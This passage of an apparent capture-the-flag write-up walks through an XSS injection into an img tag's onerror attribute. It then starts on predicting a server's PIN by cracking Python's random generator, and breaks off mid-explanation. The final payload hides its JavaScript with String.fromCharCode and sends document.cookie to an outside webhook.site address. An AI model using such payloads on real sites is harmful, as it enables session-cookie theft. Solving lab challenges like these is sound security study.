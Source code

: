 From there, we can see that the first group has actually escaped the attribute, allowing us to add extra attributes to the img, such as `onerror`. While we can't use quotes, we can still construct a payload using the use of `eval()` and `String.fromCharCode()`
```js
eval(String.fromCharCode(119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,102,101,48,54,48,97,98,52,45,48,50,50,101,45,52,51,97,50,45,97,49,54,48,45,101,49,49,97,48,99,54,102,102,99,53,54,63,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))
```
> Actually quotes would still have worked as javascript interprets `&quot` as a quote or whatnot. E.g. `image:link: onerror=eval(window.location="...")//[a][b]` works.
> However, this behavior is quite finicky so it is probably safer to just not use quotes.

Lastly, we should probably remove the dangling `&quot` at the end by inserting a comment
![[Pasted image 20250331164945.png]]
Our final payload is
```
image:link: onerror=eval(String.fromCharCode(119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,61,34,104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,102,101,48,54,48,97,98,52,45,48,50,50,101,45,52,51,97,50,45,97,49,54,48,45,101,49,49,97,48,99,54,102,102,99,53,54,63,34,43,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101))//[a][b]
```
Flag: `<i lost the flag oops>`
## One time pin
#langs/python 
A challenge where you have to predict what integer the server is guessing.
```python
async def handler(reader: asyncio.StreamReader, writer: asyncio.StreamWriter):
    client_ip, client_port = reader._transport.get_extra_info("peername")
    logging.info(f"New connection from: {client_ip}:{client_port}")

    rand = random.Random()
    try:
        while True:
            await print_prompt(writer)

            pin = await read_pin(reader, writer)
            num = rand.randrange(2**32 - 1)

            if pin != num:
                delta = abs(pin - num)
                writer.write(f"Error {hex(delta)}: Incorrect PIN.".encode())
            else:
                writer.write(b"Well done! Here is your flag: " + FLAG)
                break

            await writer.drain()
    except Exception as e:
        writer.write(f"Unexpected PIN provided. {e}".encode())
        await writer.drain()
    finally:
        writer.write_eof()
        writer.close()
```
Every time you get the guess wrong, the server will tell you how off your number is.
Since python [random is crackable](https://github.com/tna0y/Python-random-module-cracker, all we need is a large amount of consecutive bits to feed to the cracker. The project does warn that
> **Warning**: The `randint()`, `randrange()` and `choice()` methods all use `randbelow(n)`, which will internally may advance the state **multiple times** depending on the random number that comes from the generator. A number is generated with the number of bits `n` has, but it may still be above `n` the first time. In that case numbers keep being generated in this way until one is below `n`.
